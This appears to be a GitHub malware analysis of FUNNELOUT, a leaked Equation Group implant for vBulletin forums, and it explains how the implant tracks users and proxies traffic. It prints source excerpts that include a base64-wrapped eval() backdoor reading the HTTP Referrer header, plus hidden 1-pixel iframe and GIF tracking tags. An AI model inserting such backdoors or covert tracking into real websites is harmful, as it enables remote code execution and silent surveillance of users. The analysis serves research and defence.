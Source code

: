 # FUNNELOUT

vBulletin implant. The code is able to add tags (in the form of an iframe and 1 pixel GIF tracker) to pages, a backdoor (remote eval via HTTP header content) and a proxy (send request to "proxy"/C&C and relay whatever it sends back to the client). The tag itself can be a proxy tag.

Tagging can be selective, FUNNELOUT uses a blacklist, a list of users to exclude and a list of users to include. By default all users are tracked, except for the ones hardcoded in the blacklist:

```
my $blackList = '84b8026b3f5e6dcfb29e82e0b0b0f386,e6d290a03b70cfa5d4451da444bdea39'; # unregistered (EN), dbedd120e3d3cce1 (AR)
```

This is the infamous [uncrackable hash of EQGRP](https://arstechnica.com/information-technology/2015/02/password-cracking-experts-decipher-elusive-equation-group-crypto-hashes/).

Tagging is basically just including [an iframe](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L1047) in the webpage content. The URL contains the username of the user that is loading the page allowing for returning different content per user. [A local image crumb](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L924) can also be included in the page. This allows for easily finding the user in the Apache logs on the vBulletin server [Source](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L262).

The crumb and the iframe, `$htt` contains the full tag URL:

```
$crumbBuild = <<END;
'<img src="images/' . bin2hex(substr(\$u,0,14)) . ".gif" . '" height="1" width="1" style="visibility:hidden">'
END
}
....
return $crumbBuild . '<iframe src="' . \$htt . '" height="1" width="1" scrolling="' . \$scroll .'" frameborder="0" unselectable="yes" marginheight="0" marginwidth="0"></iframe>';
```

Tagging also doesn't always happen. When the vBulletin post ID is not explicitely mentioned, the tagging is kinda ["random"](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L1023-L1028).

```
# this is the normal case. tag randomly every so often
else{ 
    $text4 = <<END;
if(\$td - \$rk[0] >= $tagTime) {
    \$rk[0] = \$td;
    \$rk[1] = rand(0, $tagInt);
    \$bd(\$key, serialize(\$rk), 1);
} 
```

If the backdoor is installed (in the footer template), then you can send executable PHP code in the [`HTTP_REFERRER` header](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L288) and it will be `eval()`ed. This allows for quick external access to the system.

```
my $codePrefix = '".@eval(base64_decode("';
my $codeSuffix = '"))."';
...
sub op_door {
    $code_door = $codePrefix . getBase64Encode('eval($_SERVER["HTTP_REFERRER"]); return "";') . $codeSuffix;
    
    print "Insert door\n";
    patch_db($code_door, $doorTemplate);
}

```

The proxy functionality will literally forward [the full request (body and everything)](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L1120-L1151) towards the proxy and it will return to the user whatever [the proxy returns](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L1209) (like... a... proxy...).

Also check [Kaspersky EQGRP questions and answers](https://cdn.securelist.com/files/2015/02/Equation_group_questions_and_answers.pdf), FUNNELOUT is the code generator for the PHP code found on page 24.

![Kaspersky, example found in the wild](../assets/images/funnelout_kaspersky.png)

([Source](https://cdn.securelist.com/files/2015/02/Equation_group_questions_and_answers.pdf))


In the code found by Kaspersky, the tag URL is `http://technology-revealed[.]com/expand/order.php?design=ABRSRgDQlkUALAxGANDrRuQQofe6Y0THS8E3hfBC+M+k7CdBmTH5gAkLvgV8EV3ULW+7KoUjbJ4UOFU6SVOtgEK7zTgPPNoDHz4vKecDGe7OzDmJlvwKvc5uYg/I/5x9&sn=" . bin2hex(substr($u,0,14));` Where `$u` is the username. We also find that the crumb string is empty (just before the iframe HTML code there's a concatenation with an empty string). 

The blacklist in the Kaspersky report only contains the two md5s that are default. Since the blacklist is build up with these default entries and then a whitelist of people not to follow and a blacklist of people to follow (see [here](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L833-L864)), we know that EQGRP was following/tagging every user.

